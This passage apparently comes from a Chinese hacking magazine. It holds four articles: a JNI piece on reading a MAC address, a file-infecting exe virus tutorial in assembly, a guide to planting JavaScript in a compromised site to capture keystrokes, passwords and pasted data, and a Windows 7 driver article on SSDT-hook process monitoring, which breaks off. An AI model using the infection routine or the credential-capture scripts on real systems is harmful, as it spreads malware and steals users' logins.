{
    //判断指针是否有效
    continue;
}
int size = wcslen(processname.bstrVal)+1;
//获取不到时，会占用一个字节？
if(size<3)
{
    continue;
}
else
{
    free(cmd);
    cmd = (char*)malloc(wcslen(processname.bstrVal)+1);
    ZeroMemory(cmd,wcslen(processname.bstrVal)-1);
    sprintf(cmd,"%s",W2A(processname.bstrVal));
    VariantClear(&processname);
    pclsObj->Release();
    pSvc->Release();
    pLoc->Release();
    pEnumerator->Release();
    CoUninitialize();
    return cmd;
}
...
strcpy(cmd,"NULL");
return cmd;
```

这里需要注意下函数名的规则，对于 C++、C# 程序员来说：

```java
Java_com_wesoninfo_remis_utils_code_MachineDll_getMachineMac
```

是整个函数名，但对于 Java 来说不是，其中命名是有规则的。

```text
com.wesoninfo.remis.utils.code
```

这个是 Java 里称之为的“包名”。

```text
MachineDll
```

这个是“类名”，最后：

```text
getMachineMac
```

这才是真正调用的函数名。结合到后面 Java 调用的源代码更容易理解。

那么剩下的就是数据的 return，很明显函数是要返回一个 `jstring` 的数据类型，但是 C 里面是没有这个类型的，所以就涉及数据的转换。这里主要是演示 `char` 类型的字符串与 `jstring` 的转换，代码如下：

```cpp
jstring result;
result = env->NewStringUTF(mac);//这里是关键
return result;
```

最后奉上 Java 调用本 DLL 获取 MAC 的代码：

```java
package com.wesoninfo.remis.utils.code;
public class MachineDll {
    static {
        System.load("C:/bea/user_projects/nspg_new/litas.src/test2/javadll.dll");
    }
    public native static String getMachineMac();

    public static void main(String[] args) {
        MachineDll dll = new MachineDll();
        String mac = dll.getMachineMac();
        System.out.println("mac is:" + mac);
    }
}
```

通过 COM 调用 WMI 的形式可以说是按部就班。这里唯一变化的就是命名空间和对象名以及属性名。

最后是程序执行效果，如图 1 所示。


## Java 调用 DLL 规范

通过网上查阅，一个 DLL 需要供 Java 调用导出函数，在编写时就需要有一定的规范。换句话说，普通的动态链接库文件 Java 是无法轻易调用的。

这四个函数和 Java 通信的过程其实只有两个：调用和数据的反馈。首先我们来看调用约定。

```cpp
JNIEXPORT jstring JNICALL \
Java_com_wesoninfo_remis_utils_code_MachineDll_getMachineMac(JNIEnv *env, jobject);
```

`JNIEXPORT`、`jstring`、`JNICALL`、`JNIEnv`、`jobject` 都是 Java 的关键字和宏，所以编译 DLL 时还需要 JDK。

成功调用获取 MAC 函数的效果如图 2 所示。


> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编  
关键词：感染文件、汇编、exe

# 感染 exe 文件的病毒原理与实现

文/stormxp

这个病毒是笔者在学习过程中自己完成的，说是病毒，其实不过是一个类似于病毒的自我复制程序。该程序可以搜索硬盘上所有磁盘下的 exe 文件，并在每个 exe 文件中插入自己的代码，而被感染的文件拿到其他计算机上又具有相同的感染能力。因为全盘感染会给自己带来很大的麻烦，所以笔者在调试该程序时是在虚拟机上进行的。为了防止读者不小心搞乱自己的计算机，笔者特意删除了全盘扫描的代码，而改成了感染指定目录下的 exe 文件。源程序为 win32 汇编编写的，开发工具为 RadASM 集成开发工具，另外还有一些辅助工具，如 PE 文件查看器、OllyDBG 调试工具。

如果没有 win32 汇编基础，看这个程序的源码可能会有一点困难。笔者在写这篇文章之前曾试图用 C++ 重新实现，但做到一半的时候发现用 C++ 写有很大的困难，换句话说里面有相当一部分代码要嵌入汇编实现，与其那样还不如直接用 win32 汇编来得容易，所以读者就只能耐心一下了。

文章所附带的源码中有一个 .asm 的源程序文件，还有一个名为 test.exe 的文件。这个 test.exe 文件功能很简单，就是弹出一个对话框，对话框中是寄存器 eax 的值。它是作为病毒的宿主文件而存在的（你也可以自己找个 exe 文件并命名为 test.exe 作为宿主程序）。编译链接源文件后会生成 VirusSimple.exe（此文件只能感染 test.exe），把这个文件与 test.exe 文件放在同一目录下，运行 VirusSimple.exe 后会产生一个名为 b.exe 的文件，这个 b.exe 是 test.exe 复制并感染后的文件，也就是带了病毒的 test.exe 文件。

如果要测试这个程序，还需要在 D 盘下建立两个文件夹，一个为 D:\test\，一个为 D:\test1\，前者里面放一些 exe 文件，然后运行 b.exe 文件，此时会在后者里面得到被感染后的 exe 文件（这两个目录可以在源程序中修改）。当然这些被感染的 exe 文件也只有感染 D:\test\ 下文件的功能，不会进行全盘扫描。

- 程序包含以下几个模块：
  1. 复制 test.exe 文件为 b.exe，在该文件中添加一个新节，并加入病毒代码；
  2. 病毒代码中动态获取 API 的入口地址；
  3. 病毒代码中实现自我复制（其实是对第一步的改进）；
  4. 病毒代码中实现文件搜索。

## 在 exe 文件中添加自己的代码

这一段程序其实是笔者学习得到的，里面大多是一些 API 调用和 exe 文件的操作，网上在这方面的教程也很多，所以在这一段不想花太多的笔墨。这段代码里面用到的 API 的用法，读者可以去查一下帮助文档。对 exe 文件的操作需要读者对 exe 文件结构有所了解，如果对这些不了解可能会看得一头雾水。本段代码过程如下：

- 1. 首先做一些前期检测工作  
  1) 用 CreateFile 打开 test.exe 文件；  
  2) 用 CreateFileMapping 和 MapViewOfFile 将该文件映射到内存空间；  
  3) 检测该文件是否为一个正确的 exe 文件，包括检测 DOS 文件头和检测 NT 文件头。

- 2. 准备工作  
  1) 用 CopyFile 复制 test.exe 文件为 b.exe，再用 CreateFile 打开这个文件；  
  2) 用 GlobalAlloc 申请一块与 b.exe 文件头大小相同的内存，并用 RtlMoveMemory 将原文件头的内容复制到这块内存中。

- 3. 修改内存中 exe 文件头基本的信息  
  1) 在所有节表后添加一个新节表；  
  2) 修改新增节表的相关信息：  
     - 修改 NT 文件头中的节表计数，使总节表数量加一；  
     - 填充新节在文件中的偏移值字段；  
     - 填充新节在文件中的尺寸字段；  
     - 修改代码段长度：  
       - 代码长度按文件页对齐放入新节表文件大小字段中；  
       - 代码长度按内存页对齐后加在 NT 文件头的代码内存大小字段中；  
     - 在 NT 文件头中修改文件的内存映像尺寸字段；  
     - 填充新节在内存中的内存偏移值字段；  
     - 填充新节的内存尺寸字段；  
     - 填充新节的属性字段，使新节可读、可写、可执行；  
     - 填充新节名，名为 .storm。  
  3) 在 NT 文件头中修改原文件的入口地址，使之指向新加代码；  
  4) 把内存中的文件头副本写回到 b.exe 文件中。

- 4. 将病毒代码添加到新节中  
  （1）用 SetFilePointer 定位到文件 b.exe 新节的起始处；  
  （2）把本程序运行空间中的病毒代码（编译后生成的二进制数据）用 WriteFile 写入到 b.exe 的新节中；  
  （3）将文件指针移动到 b.exe 文件结尾处，并设置文件结束。

- 5. 修正原文件代码的入口地址  
  （1）得到新加代码结尾地址与原入口地址之间的相对偏移量；  
  （2）把 b.exe 文件指针定位到病毒代码结尾的 jmp 处；  
  （3）修正跳转地址，把 e9 后面的四个字节空指令改成病毒代码结尾地址与原入口地址的相对偏移。

- 6. 扫尾工作  
  做一些如关闭文件句柄的工作。完成上面的过程后，我们已经将病毒代码写入到了 b.exe 中，过程虽然复杂，但下面重点介绍病毒代码的实现。

## 动态获取 API 入口地址

我们在编程中使用 API 有两种办法：第一是编译链接时使用导入库，exe 中包含导入表，程序运行时由系统修正 API 调用地址；第二是在代码中先用 LoadLibrary 动态装入 DLL，再用 GetProcAddress 根据函数名获取入口地址。前面所用 API 多为第一种方法，但当病毒代码被加入到 b.exe 后，导入表中不存在这些额外代码对应信息，运行时可能出错，因此需要采用动态获取入口地址的方法。

在 Windows 运行应用程序时，系统会调用位于 Kernel32.dll 中的 CreateProcess。进入应用后可利用返回地址定位 Kernel32.dll 基址，再按 PE 结构查找 GetProcAddress 入口。有了该地址后，可根据 Kernel32.dll 基址与函数名得到 LoadLibraryA 的入口地址，进而解决后续 API 获取问题。

LoadLibraryA 用来得到 LoadLibrary 的入口地址。有了这些地址，问题基本解决。需要注意：DLL 中函数名与帮助文档可能略有差异，需通过 PE 文件实际查看对应 DLL 导出信息。

动态获取 API 入口地址放在过程 GetAPIAddr 中，其中包含两个子过程：GetKernelBase（搜索 kernel.dll 基址）和 NameToAddress（在 kernel.dll 中搜索 GetProcAddress）。摘抄部分代码如下：

```asm
call @F
@@:
pop ebx
sub ebx,@B

; 通过搜索 kernel.dll 获取 GetProcAddress 入口地址
lea eax,[ebx+lpGetProcAddr]
push ebx
invoke NameToAddress,eax,[ebx+KernelBase]
pop ebx
.if !eax
    jmp GetAPIAddrError
.endif
mov [ebx+MyGetProcAddress],eax

; 通过调用 GetProcAddress 获取 LoadLibrary 入口地址
lea eax,[ebx+lpLoadLibrary]
push ebx
invoke [ebx+MyGetProcAddress],[ebx+KernelBase],eax
pop ebx
.if !eax
    jmp GetAPIAddrError
.endif
mov [ebx+MyLoadLibrary],eax

; 通过 LoadLibrary 导入 User32.dll，保存其基址
lea eax,[ebx+lpUser32]
push ebx
invoke [ebx+MyLoadLibrary],eax
pop ebx
.if !eax
    jmp GetAPIAddrError
.endif
mov [ebx+User32Base],eax

; 获取其他 API 入口地址（如 CreateFile）
lea eax,[ebx+lpCreateFile]
push ebx
invoke [ebx+MyGetProcAddress],[ebx+KernelBase],eax
pop ebx
.if !eax
    jmp GetAPIAddrError
.endif
mov [ebx+MyCreateFile],eax
```

获取其他 API 地址的方法与上面类似，只是参数不同，这里不一一列举。

## 病毒代码中原有变量及变量地址重定位

程序在编译时，编译器会将不同变量和代码放入不同区域。以 win32 汇编为例，数据段中的变量、栈中的局部变量、代码段中的指令彼此并不相交，因此在注入/重定位时需要分别处理变量与地址引用。

编译器对变量的处理就会编译为对这些地址的操作。现在假设我们并没有在代码段中为变量申请空间，而是把它放在了数据段中，或者放在了局部变量里，那么我们编译程序后运行时，这段病毒代码所用到的变量被放在了不同的位置，并且这个位置我们在写程序的时候并不能用代码直接去操纵。当病毒代码被复制到 b.exe 时，只有代码段中的数据被复制，而位于数据段和栈中的变量空间并没有进行复制。当 b.exe 中的病毒代码运行时，这段代码位于 b.exe 的虚拟地址空间内，它要访问的这些变量的地址，可能已经被 b.exe 的程序所占用，也可能是一些随机值，于是访问会出错。

解决这个问题最好的办法就是把变量放在代码段中，让变量随代码一起被复制。此时汇编的灵活性就显现出来了，汇编可以允许在代码段中申请变量空间，但很可惜的是，在代码段中申请的变量只有读权限，并没有写权限。转念一想，你会发现，病毒代码在原程序中并不运行，它运行时已经被插入到了 b.exe 中，而在 b.exe 中为病毒添加新节时我们可以指定该节具有写属性，也就是说在原文件 VirusSimple.exe 中病毒代码内没有写权限不能正常运行，但插入其他 exe 文件后就能正常运行。

下一个更为重要的问题是变量的地址重定位。现假设 VirusSimple.exe 运行时为进程 A，b.exe 运行时为进程 B。病毒代码在 A 中时，用到的变量在编译时生成的绝对地址是按进程 A 确定的，把病毒代码复制到进程 B 中时，被复制过来的代码要运行时会按 A 中生成的绝对地址访问那些变量，在进程 B 的地址空间中那个地址可能已经被其他进程占用，也可能是一些随机的数据，这样会造成访问出错，所以必须对这些访问变量的代码进行地址重定位。

现分析下面这段代码：

```asm
1. call @F
2. @@:
3. pop ebx
4. sub ebx, offset @B
```

第一句执行时首先会把第三句运行时的地址（注意是运行时的地址，不是绝对地址，这个地址在进程 A 中与在进程 B 中是不一样的，因为 call 被编译为偏移的调用，而不是绝对地址调用）压入堆栈，然后执行第三句，而第二句又把该地址弹出到寄存器 ebx 中。第四句的 offset @B，它在编译时被编译器修改为进程 A 中第三句的绝对地址。如果现在该段代码运行于进程 A 中，第四句相减执行完后 ebx 为 0。如果该段代码运行于进程 B 中，第四句相减执行完后 ebx 并不是 0，而是这段代码在进程 A 中的地址偏移与在进程 B 中地址偏移之差。得到这个差值后，在进程 B 中每当访问含有绝对地址的变量时只要加上这个差值就可以得到正确地址。到了进程 C 中，虽然这个偏移值会不同，但也会正确访问。应用的例子上面已经举到，这里就不再举了。

## 自我复制

其实这段代码只不过是对在 exe 文件中添加代码的改进，与前期检测工作不同的是，这段代码里对所有变量的访问都采用了地址重定位的方式。另外，这段代码里添加了一段检测目标文件是否已经被感染的代码。源文件中该部分的过程为 CopySelf，参数为目标文件。总体实现过程如下：

- 1. 首先对目标文件做一些前期检测工作；
- 2. 检测该文件是否已经被感染；
- 3. 做一些准备工作，包括申请文件头内存等工作，详见前面讲的前期检测工作；
- 4. 修改内存中 exe 文件头基本的信息，并将 exe 文件头写回目标文件；
- 5. 向目标文件写入病毒代码；
- 6. 修正目标文件中代码的入口地址；
- 7. 修正病毒代码结尾处的 jmp 指令，使之跳转到目标文件的原入口地址；
- 8. 扫尾工作，做一些如关闭文件句柄的工作。

自我复制的核心代码如下：

```text
（代码块：包含“将病毒代码添加到新节中”“定位到文件新节的起始处”“重定位病毒的起始地址”“复制代码，在病毒起始地址处开始复制”等步骤，涉及 push ecx、invoke、mov、add、lea、jmp CopySelfError、endif 等汇编语句。）
```

## 文件搜索

这部分代码是笔者在写文章之前临时写的，如果真的要写一个类似熊猫烧香的病毒，这部分代码是不需要的。这里简要介绍一下实现原理，以便读者在学习过程中方便一些。在源文件中这段代码是过程 SearchFile，参数为搜索的初始目录。

- 1. 检查初始目录是否合法，主要是检查路径结尾处是否有目录结束符号“\”。
- 2. 给搜索目录添加搜索过滤字符串“*.*”，之所以不是“*.exe”，是因为如果这样就不能搜索子目录了；
- 3. 用 FindFirstFile 进行第一次搜索，如果失败，则结束搜索；
- 4. 得到搜索到的文件的完整路径和要复制的目标文件夹的完整路径；
- 5. 获得搜索到的文件扩展名；
- 6. 查看是否为子目录，如果是则递归调用此过程，以便搜索子目录；
- 7. 如果扩展名为 .exe，则调用 CopySelf 过程对其进行感染；
- 8. 调用 FindNextFile 搜索下一个文件；
- 9. 如果搜索成功则转 4，搜索失败转 10；
- 10. 关闭搜索句柄；
- 11. 结束。

好了，到目前为止这个病毒的框架基本完成了，但你可以放心，这个程序它不会危害你的计算机。如果在这个程序的病毒代码里面再加一些其他代码，如安装键盘钩子、加上网络通信功能，一个完整的木马就出来了。还有呢？可以任你去发挥了，只有想不到，没有做不到，就像一个房子盖好了，你想在里面放什么东西，就看你自己的心情了。笔者曾经完成了以上功能，并把完整代码放在了 CSDN 上，有兴趣的读者可以去下载学习。当然了，我只是希望读者抱着一个学习的态度来看待这个程序，不要拿来去做坏事，否则我可就罪孽深重了。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：Js  
关键词：Js、用户信息

# 浅谈 JS 获取用户信息

文 /GF

在 webshell 权限很低导致入侵无法继续下去时，或者可以采取一些被动的战术，例如，嗅探。这个嗅探其实可以广泛地理解为键盘记录等守株待兔式地搜集用户信息。假设此时 webshell 权限很低，屋漏偏逢连夜雨，服务器权限也设置得异常严格，以至于连上面的网页都无法修改。那么运用 Js 或许可以达到意想不到的效果。因为在实际情况中，很多管理员只是把数据库文件和网页文件权限设置得异常严格，而很多 Js 文件则不屑一顾，又或者是没考虑到。那么我们可以通过在 Js 后面增加自己的代码间接控制整个 Web。

## 获取用户信息的途径

- 使用 Js 记录用户信息时大致可以分为 3 类：
  1. 键盘记录。
  2. text 类控件的数据。
  3. 粘贴板数据。

### 1. 键盘记录

纯粹地记录键盘数据是一件很费时的事情。因为要考虑的东西实在太多。键盘上有功能键和数字键、字母键、符号键，以及它们之间的组合产生的新字符。Js 里有两类相关的事件函数分别是：onkeypress 和 onkeydown、onkeyup。顾名思义，前者是接受用户输入的一个字符（数字、字母、符号）。这个函数在很大程度上帮我们解决了之前讨论的复杂性。因为它接受的是用户最终输入的字符，这表示即使你使用组合键输入字符时也可以直接获取到，而不会获取到两个键的数据（更不必说大小写、数字符号的问题了）。但是这有个缺点，它无法记录部分功能键。例如，制表键、退格键、方向键以及方向键上面的特殊功能键等。当然，它还有一个致命的缺点：用户使用粘贴操作时就无法获取到真实数据了。

onkeydown、onkeyup 事件的好处就是可以获取用户的一举一动，包括 Shift 键、Ctrl 键等，并且还可以直接访问对象的属性，判断是否按下了某些功能键，例如 event.ctrlKey。如果将 onkeypress 和 onkeydown、onkeyup 配合起来的话，的确可以满足一些特殊要求，只是算法略显复杂。

### 2. text 类控件的数据

如果我们可以确定只是为了类似获取网页上某处 text 的数据，那么我建议使用下面这种稳定简洁的办法。假设我们要获取某 B/S 系统的用户登录信息。从登录页面可以轻松得到用户名和密码框的 name 或者 ID。

```html
<TR>
  <TD vAlign=top align=right>Username:</TD>
  <TD><INPUT name="usr"></TD></TR>
<TR>
  <TD vAlign=top align=right>Password:</TD>
  <TD><INPUT type=password name="pwd"></TD></TR>
```

如上面的代码，输入用户名和密码的控件名（或者 ID）分别为 usr 和 pwd。那么 Js 代码可以这样写：

```javascript
var ss = document.getElementById("usr");
alert(ss.value);
ss = document.getElementById("pwd");
alert(ss.value);
```

那么运行后便会将用户名和密码显示出来了。这个办法最大的好处是，避免了直接处理用户键盘数据的烦琐，而且获得到最后提交的数据。

### 3. 粘贴板数据

貌似 Js 没有直接的函数或者事件获取粘贴板的数据。不过有聪明的前辈已经发明了一种迂回的办法：在 Js 中添加一个 text 控件；注册 onkeydown 事件。当检测到用户按下键时就检查：

```js
if (event.ctrlKey && event.keyCode == 86)
```

判断此时用户按下的键的 ASCII 码是不是 86，并且判断是否按下了 Ctrl 键。这里要注意的是，即使处于大写状态，当我们按下 Ctrl+V 组合键时，得到的 keyCode 仍旧是 86。

如果 if 成立则将光标焦点移向我们的 text 控件，即用户的输入对象是我们自己的控件，此时系统自动会将用户复制的数据粘贴到我们自己的 text 控件上啦。然后只需要获取我们自己控件的内容就好了。写成 Js 代码大致是这个样子：

```js
function keydown(event)
{
    if (event.ctrlKey && event.keyCode == 86)
    {
        var ss = document.getElementById('text');
        ss.focus();
        setTimeout('dealwithData()', 50);
    }
}
function dealwithData(event)
{
    alert(document.getElementById('textArea').value);
}
document.onkeydown = keydown;
<textarea id="text">
```

不过，这个办法有一个弊端：用户需要输入的地方接受不到数据了。

## 兼容的问题

目前常用的浏览器主要有基于 IE 和基于 Mozilla 两大类。Maxthon 是基于 IE 内核的，而 FireFox 和 Opera 是基于 Mozilla 内核的。

同样的，当响应一个事件时，会伴随一个对象传递到相应的函数中，这个对象名是固定的；郁闷的是不同浏览器内核的命名不一样：IE 是 event，Mozilla 则是 e。所以我们采用“或”运算的办法，因为二者总有一个为真：`var ev = e || event`，这样无论是哪个浏览器内核都能正确获取到对象了。

而不同对象的属性名仍旧不同，例如，输入的字符 ASCII 码属性名：IE 是 event.keyCode，Mozilla 则是 e.which。那么同样的，我们这样处理：`var Key = e.keyCode || e.which || e.charCode`。这里的 charCode 是针对 Opera 浏览器。综上，我们现在归类如下：

| 浏览器名称 | keydown | keyup | keypress |
|---|---|---|---|
| IE | keyCode=按键码；which=undefined；charCode=undefined | keyCode=按键码；which=undefined；charCode=undefined | keyCode=字符码；which=undefined；charCode=undefined |
| Firefox | keyCode=0；which=按键码；charCode=0 | keyCode=按键码；which=按键码；charCode=0 | keyCode=0；which=字符码；charCode=字符码 |
| Opera | keyCode=按键码；which=按键码；charCode=undefined | keyCode=按键码；which=按键码；charCode=undefined | keyCode=字符码；which=字符码；charCode=undefined |

## 调用方式

对于相应事件的方式就没什么好说的了。那么，对于使用 document.getElementById 方式的情况，我们如何确定当前用户已经完全将数据输入了呢？

这是我们或许可以用到回调函数 `window.onbeforeunload`。当离开本页面时执行此函数。例如，执行登录的验证，必然会离开本页面转到验证页面，那么，此时我们可以认为用户已经将数据输入完毕，可以获取控件内容了。

当然，或许根据不同情况还有别的判断标准和方法，这里不再一一列举。

前置知识：驱动  
关键词：Windows 7、进程监控

# Windows 7 下进程监控详解

文/宁姝

## 进程监控技术回顾

在 Windows 5.X（2K, XP, 2K3）系统下，进程监控已经非常流行，涉及的技术点也已经被分析得非常透彻，这里不再详细叙述，简单地说，一般都是选择编写驱动程序（当然也可以选择微软的 Detour 库进行 Ring3 下的全局 Hook 来实现进程监控）来实现，比如选择 SSDT Hook 挂钩 NtCreateProcessEx（2K 下没有这个函数，可以挂钩 NtCreateProcess）；或者选择 Inline Hook 挂钩 PspCreateProcess；或者安装一个进程回调函数等。

而在 Windows 7 系统下，之前很多进程监控技术不再适用，很多细节也需要重新考虑，比如解决 UAC 机制的“打扰”问题。本文将详细介绍 Windows 7 下一个完整的进程监控程序是如何实现的，并提供一个完整的进程监控可执行程序作为参考。


## Windows 7 下的进程监控

### 一、5.x 的区别

- 1. Hook 函数的选择

在 5.x 系统中，可以选择 Hook NtCreateProcessEx，但是到了 Windows 7 系统中，Hook NtCreateProcessEx 将什么也得不到。事实上，Windows 7 提供了另一个未文档化的服务函数 NtCreateUserProcess，应用程序创建进程后将调用它而非 NtCreateProcessEx。关于 NtCreateUserProcess 这个服务函数的参数，zzzevarzz 在他的 baidu 博客“关于 NtCreateUserProcess 和 NtCreateThreadEx 的参数”一文中已经给出，实践证明可以成功帮助解析进程创建信息。这里引用一下：

```c
NTSTATUS NtCreateUserProcess(
  OUT PHANDLE ProcessHandle,
  OUT PHANDLE ThreadHandle,
  IN ACCESS_MASK ProcessDesiredAccess,
  IN ACCESS_MASK ThreadDesiredAccess,
  IN POBJECT_ATTRIBUTES ProcessObjectAttributes OPTIONAL,
  IN POBJECT_ATTRIBUTES ThreadObjectAttributes OPTIONAL,
  IN ULONG CreateProcessFlags,
  IN ULONG CreateThreadFlags,
  IN PRTL_USER_PROCESS_PARAMETERS ProcessParameters,
  IN PVOID Parameter9,
  IN PNT_PROC_THREAD_ATTRIBUTE_LIST AttributeList
);
```

- 2. UAC 机制的“打扰”

Windows 7 中的 UAC 机制，虽然为保护用户计算机安全立下了很大功劳，但也为本程序设计带来了一些麻烦。这里先简单介绍一下 UAC 机制中与本文联系紧密的两个特性。

首先是权限的问题。平时执行程序时默认特权很少，只有 5 个，这样在很大程度上保护了计算机安全：

| Privilege | Attributes |
|---|---|
| SeShutdownPrivilege | - |
| SeChangeNotifyPrivilege | - |
| SeUndockPrivilege | - |
| SeIncreaseWorkingSetPrivilege | - |
| SeTimeZonePrivilege | - |

只有在用户选择“以管理员权限运行”运行程序的时候，才会“归还”管理员的特权：

| Privilege | Attributes |
|---|---|
| SeIncreaseQuotaPrivilege | - |
| SeSecurityPrivilege | - |
| SeTakeOwnershipPrivilege | - |
| SeLoadDriverPrivilege | - |
| SeSystemProfilePrivilege | - |
| SeSystemtimePrivilege | - |
| SeProfileSingleProcessPrivilege | - |
| SeIncreaseBasePriorityPrivilege | - |
| SeCreatePagefilePrivilege | - |
| SeBackupPrivilege | - |
| SeRestorePrivilege | - |
| SeShutdownPrivilege | - |
| SeDebugPrivilege | - |
| SeSystemEnvironmentPrivilege | - |
| SeChangeNotifyPrivilege | - |
| ... | ... |

| Privilege | Attributes |
|---|---|
| SeManageVolumePrivilege | - |
| SeImpersonatePrivilege | - |
| SeCreateGlobalPrivilege | - |
| SeIncreaseWorkingSetPrivilege | - |
| SeTimeZonePrivilege | - |
| SeCreateSymbolicLinkPrivilege | - |

> （查看进程特权的方法：在 WinDbg 中先 `!process 0 0`，选择一个进程，再 `!process xxxx`，找到 token 值，最后 `!token yyyy` 就可以了）

很明显，在使用 SCM 方式加载驱动的时候，需要通过 UAC 切换到特权模式以获得 SeDebugPrivilege 特权；另外，在更改注册表、实现自启动等需要使用管理员特权的时候也需要 UAC 的“帮忙”。

其次是桌面的问题。玩过注入 svchost 的朋友们都知道，在那里配置不能使用 MessageBox 之类含有图形界面的代码，否则只能听到“咚”的一声却看不到熟悉的对话框，因为进程桌面不一样。而 UAC 在启动的时候（也就是进程活动列表中存在 consent.exe 这个进程的时候）同样会切换桌面，阻止其他应用程序执行。如果这个时候进行拦截，拦截用的对话框可能无法出现，后果是驱动程序等待用户判断，而用户找不到需要判断的对话框，之后的进程因为同步原因无法执行，包括 UAC 自身，从而导致死锁甚至死机。简单的解决方法是检测到 UAC 正在执行时不进行拦截，待其完成后再拦截。

当然，简单地关闭 UAC 功能也可以解决以上问题，但这个解决方案太搞笑了。

- 3. 静态调试

这个比较常见，相信在 Windows 7 下写过驱动的朋友们都知道，原来的 KdPrint 是不能成功向 DbgView.exe 或调试器中输出信息的，得用 KdPrintEx。

- 4. 自启动

在 5.x 系统中，直接修改 Run 键值即可实现程序的自启动。在 Windows 7 中当然也可以这么做。问题是，当需要使用管理员权限打开程序的时候，这样直接自启动程序是不行的，程序将默认以非管理员特权打开。要在自启动时以管理员权限打开程序，可以利用第三方程序加载目标程序，如使用下面的代码：

```c
int WINAPI WinMain(__in HINSTANCE hInstance, __in_opt HINSTANCE hPrevInstance, __in_opt LPSTR lpCmdLine, __in int nShowCmd)
{
    WCHAR szPath[MAX_PATH] = {0}, *p;
    SHELLEXECUTEINFOW info = {0};
    OSVERSIONINFOW osvi;
    ZeroMemory(&osvi, sizeof(OSVERSIONINFOW));
    osvi.dwOSVersionInfoSize = sizeof(OSVERSIONINFOW);
    GetVersionExW(&osvi);
    if (osvi.dwMajorVersion >= 6)
    {
        info.lpVerb = L"runas";
    }
    GetModuleFileName(NULL, szPath, MAX_PATH);
    p = wcsrchr(szPath, '\\');
    if (NULL == p) { ... }

    return 0;
}
*(p+i) = '\0';
wcscat(p, L"Anii0day.exe");
info.cbSize = sizeof(SHELLEXECUTEINFOW);
info.fMask = SEE_MASK_FLAG_NO_UI | SEE_MASK_NOCLOSEPROCESS;
info.lpDirectory = NULL;
info.lpFile = szPath;
ShellExecuteExW(&info);
return 0;
}
```

这样，在判断当前系统主版本号大于等于 6 的时候（Vista/Win7），将执行动词 `lpVerb` 赋值为 `runas`，即可让管理员权限调用目标程序 `Anii0day.exe`。注意，需要将 Run 键值设为本程序，且本程序和目标程序需要放在同一个目录下。

### 二、总体设计

本软件分为两个模块：应用程序模块和驱动程序模块。应用程序模块主要负责图形界面实现、与驱动通信、规则的配置与保存、逻辑判断等。驱动模块负责挂钩 NtCreateUserProcess（关于 Hook NtMapViewOfSection 的方法见后文）、与应用程序通信。

黑/白名单选择保存在注册表中，白名单保护使用 SHA1 计算哈希值比对，智能判断则主要体现在对签名程序的自动放过。

### 三、模块实现

- 1. 驱动模块

关于如何编写驱动，这些就不介绍了，下面将结合代码详细介绍关键点。

- 2. SSDT Hook 的安全性与服务号的获得

SSDT Hook 使用原子操作，这样可以解决多核计算机的不同步问题。

而 NtCreateUserProcess 服务号的获得，硬编码方法就不说了，如何动态准确地获得呢？通过研究可以发现，ZwCreateUserProcess 这个函数地址加一处的 4 个字节值就是服务号了。因为内核并没有导出 ZwCreateUserProcess，所以考虑从 ntdll.dll 中导出的 ZwCreateUserProcess 这个函数来获得服务号。

网上有相应的代码，方法是映射 ntdll.dll 到内存中，再通过导出表找到映射内存中 ZwCreateUserProcess 的地址，而 ID 号就是这个地址加一处的 4 个字节值了。这里直接给出相关代码：

```c
ULONG GetSysServiceId(IN PUNICODE_STRING uDllName, IN char *cSearchFnName)
{
    ULONG uFnAddr = 0;
    ULONG uID = 0;
    int i = 0;
    NTSTATUS ntStatus;
    HANDLE hFile;
    OBJECT_ATTRIBUTES oattr;
    IO_STATUS_BLOCK iosb;
    HANDLE hSection;
    PVOID pBaseAddr = NULL;
    SIZE_T viewSize = 0;
    ULONG uModBase = 0;
    IMAGE_DOS_HEADER *doshdr;
    IMAGE_OPTIONAL_HEADER *opthdr;
    IMAGE_EXPORT_DIRECTORY *pExportTable;
    ULONG *dwAddrFns, *dwAddrNames;
    USHORT *dwAddrNameOrdinals;
    char *cFunName;
    ULONG dwFnOrdinal;
    ...
}
```

```c
InitializeObjectAttributes(&oattr, uDllName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);
ntStatus = ZwOpenFile(&hFile, GENERIC_READ, &oattr, &iosb, FILE_SHARE_READ | FILE_SHARE_WRITE, FILE_SYNCHRONOUS_IO_ALERT);
if (!NT_SUCCESS(ntStatus)) {
    KdPrintEx((xx, "[GetSysServiceId] ZwOpenFile Failure,err:0x%08x\n", ntStatus));
    return 0;
}

ntStatus = ZwCreateSection(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE, NULL, 0, PAGE_READWRITE, 0x1000000, hFile);
if (!NT_SUCCESS(ntStatus)) {
    KdPrintEx((xx, "[GetSysServiceId] ZwCreateSection Failure,err:0x%08x\n", ntStatus));
    ZwClose(hFile);
    return 0;
}

ntStatus = ZwMapViewOfSection(hSection, NtCurrentProcess(), &pBaseAddr, 0, 1024, 0, &viewSize, ViewShare, MEM_TOP_DOWN, PAGE_READWRITE);
if (!NT_SUCCESS(ntStatus)) {
    KdPrintEx((xx, "[GetSysServiceId] ZwMapViewOfSection Failure,err:0x%08x\n", ntStatus));
    ZwClose(hSection);
    ZwClose(hFile);
    return 0;
}

uModBase = (ULONG)pBaseAddr;
do {
    doshdr = (IMAGE_DOS_HEADER*)uModBase;
    if (NULL == doshdr) break;

    opthdr = (IMAGE_OPTIONAL_HEADER*)(uModBase + doshdr->e_lfanew + 24);
    if (NULL == opthdr) break;

    pExportTable = (IMAGE_EXPORT_DIRECTORY*)(uModBase + opthdr->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    if (NULL == pExportTable) break;

    dwAddrFns = (ULONG*)(uModBase + pExportTable->AddressOfFunctions);
    dwAddrNames = (ULONG*)(uModBase + pExportTable->AddressOfNames);
    dwAddrNameOrdinals = (USHORT*)(uModBase + pExportTable->AddressOfNameOrdinals);

    for (i = 0; i < pExportTable->NumberOfNames; ++i) {
        cFunName = (char*)(uModBase + dwAddrNames[i]);
        if (!strncmp(cSearchFnName, cFunName, strlen(cSearchFnName))) {
            ...
        }
    }
} while (0);
```

```c
{
    dwFnOrdinal = pExportTable->Base + dwAddrNameOrdinals[i] - 1;
    uFnAddr = uModBase + dwAddrFns[dwFnOrdinal];
    uID = *(ULONG*)((ULONG)uFnAddr + 1);
    break;
}
...
} while (FALSE);
ZwUnmapViewOfSection(NtCurrentProcess(), pBaseAddr);
ZwClose(hFile);
ZwClose(hSection);
return uID;
```

## 3. UAC 的检测

